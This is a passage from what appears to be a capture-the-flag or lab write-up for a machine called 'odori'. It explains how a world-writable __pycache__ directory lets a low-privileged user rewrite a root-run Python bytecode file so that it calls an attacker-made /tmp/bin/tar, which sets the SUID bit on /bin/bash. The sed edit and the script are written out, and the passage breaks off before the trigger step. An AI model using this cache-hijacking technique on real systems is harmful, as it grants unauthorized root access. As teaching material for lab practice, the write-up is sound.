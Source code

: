 ```python
import os
import subprocess
from datetime import datetime

def tar_and_move_files(file_path, archive_dir):
    current_date = datetime.now().strftime('%Y-%m-%d')
    tar_filename = os.path.join(archive_dir, f'{current_date}_{os.path.basename(file_path)}.tar.gz')
    subprocess.Popen(["/usr/bin/tar", "-czf", tar_filename, "-C", os.path.dirname(file_path), os.path.basename(file_path)])
    os.remove(file_path)
```

This also looks pretty solid. Checking permissions again we do however notice that there is a `__pycache__` folder which we have write access to! Even though python is an interpreted language, python scripts will be compiled to byte code before being run. This happens automatically every time another script in the same directory structure is imported, as is the case here with `app.py` importing `helper.py`.

```
svc_backup@odori:/opt/archiver$ ls -la
total 20
drwxr-xr-x 3 root root 4096 Jan 11 19:42 .
drwxr-xr-x 3 root root 4096 Jan 11 19:44 ..
drwxr-xrwx 2 root root 4096 Jan 11 19:42 __pycache__
...

svc_backup@odori:/opt/archiver$ ls -lah __pycache__/
total 12K
drwxr-xrwx 2 root root 4.0K Jan 11 19:42 .
drwxr-xr-x 3 root root 4.0K Jan 11 19:42 ..
-rw-r--r-- 1 root root  542 Jan 11 19:42 helper.cpython-310.pyc 
```


If we could manipulate the cache file in a way that python still uses it, we would perhaps be able to execute our own code. If it finds a file older than 3 years, it moves it with the helper function using an `subprocess.Popen` command, which is calling the `/usr/bin/tar` binary. There is a fairly easy way to achieve this without messing too much with the file format, we just edit the string!

```
sed -i 's|/usr/bin/tar|/tmp/bin/tar|' helper.cpython-310.pyc
```

Now instead of `/usr/bin/tar`, the `/tmp/bin/tar` script is being called, which we create next:

```
mkdir -p /tmp/bin
cat /tmp/bin/tar

#!/bin/bash
chmod u+s /bin/bash
```

After making it executable (`chmod +x /tmp/bin/tar`), we still have to create a file that is old enough in order to trigger this code path:
